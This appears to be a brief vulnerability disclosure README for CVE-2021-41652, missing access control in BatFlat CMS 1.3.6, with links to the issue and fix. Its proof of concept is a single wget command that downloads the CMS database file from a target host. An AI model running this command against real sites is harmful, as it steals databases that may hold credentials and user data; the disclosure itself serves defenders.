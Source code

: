 # CVE-2021-41652

**Description:** Missing Access Control in BatFlat CMS 1.3.6

**Vulnerable App:** [Download](https://github.com/sruupl/batflat/archive/master.zip) (reset to commit `0c9511fb342fbdd17fd0d1d0cccafc8ae43b6189`)

**Github Issue:** [https://github.com/sruupl/batflat/issues/113](https://github.com/sruupl/batflat/issues/113)

**Fixed Commit:** [9211d84406d63c575b079619137aff74b67cd344](https://github.com/sruupl/batflat/commit/9211d84406d63c575b079619137aff74b67cd344)

**Proof Of Concept:** `wget https://<target-ip>/inc/data/database.sdb`
